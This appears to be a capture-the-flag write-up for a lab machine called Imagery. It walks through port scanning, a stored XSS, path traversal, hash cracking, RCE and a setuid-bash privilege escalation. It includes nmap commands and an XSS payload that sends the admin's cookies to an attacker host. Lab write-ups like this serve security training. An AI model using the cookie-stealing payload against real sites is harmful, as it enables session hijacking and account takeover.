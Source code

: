 # Imagery

![Logo](images/icon.png)

## Port enumeration

First thing I did was scaning the objetive with nmap.

```bash
nmap -p- --open -T5 -n -vvv -Pn imagery.htb
```

This reveals 2 open ports, 22 and 8000

```
22/tcp    open    ssh        syn-act    ttl    63
8000/tcp  open    http-alt   syn-act    ttl    63
```

I scan this two services to reveal more information.

```bash
nmap -p 22,8000 -sCV imagery.htb
```

This reveal that the http service in port 8000 is a python server.

![Logo](images/image18.png)

## Web enumeration

![Logo](images/image7.png)

The first thing I saw was the page home, here, I can only find 2 functional pages, ```upload```, where i can upload an image in the server, I tried to exploit this page for a wile, but nothing worked.

![Logo](images/image21.png)

The other page I found was ```report a bug```, this panel allow me to send a report to the admin, it seems like it can be vulnerable with XSS, so, I test it and I confirmed the vulnerability.

![Logo](images/image25.png)

## XSS Explotation

I send a payload who will allow me to steal the admin cookies.

```html
<img scr=x onerror="new Image().src='http://<myip>:<myport>/?='+encodeURIComponent(document.cookie)"/>
```

This sends me the session cookie to my python server.

![Logo](images/image13.png)

## Admin panel enumeration

With that cookie, I were allowed to log in the page as admin.

![Logo](images/image37.png)

As admin, I had access to ```Admin Panel```.

![Logo](images/image1.png)

Here, I can see who I can download the logs from 2 users, admin and testuser.

After reading these logs, I didnt found nothing interesting, but, after intercept the http request with  burpsuite, I found a path traversal vulnerability.

![Logo](images/image26.png)

## Path traversal explotation

I discovered with /etc/passwd who the 2 users in this machine are web and mark

After a bit, I read the config files, where I found some credentials.

![Logo](images/image27.png)

With john the ripper, I was able to obtain the testuser password.

![Logo](images/image5.png)

Now, I loged in the machine ad testuser, but, I cant see mayor diferences, so, I read the source code.

![Logo](images/image40.png)

And there it is, a RCE, and this feature is only available to testuser.

## RCE exploitation

I just update a image and use the Visual Image Transform feature.

![Logo](images/image12.png)

With burpsuite, in injected the code.

![Logo](images/image22.png)

And with that, I obtained a shell.

![Logo](images/image30.png)

## Local enumeration

After a while i found, in /var/backup, 2 interesting files.

![Logo](images/image31.png)

For some reason I found the root flag there — this must be an error — so I continued with the web backup.

## AES brute force

The backup is encrypted with AES, so I needed to find the password by brute force.

![Logo](images/image17.png)

I made a python script to attack with dictionary.

![Logo](images/image28.png)

Here, I found a oldest version of the app, and, in the database, i found 2 more users and their hashes, web, and mark.

![Logo](images/image2.png)

With john, I reveal the mark password.

![Logo](images/image9.png)

And, with that, I log as mark with su.

![Logo](images/image23.png)

## Privilege scalation

After a short enumeration I discovered that ```/bin/bash``` has the setuid bit set.

![Logo](images/image16.png)

I only needed to execute this binary as its owner, and I became root.

![Logo](images/image20.png)
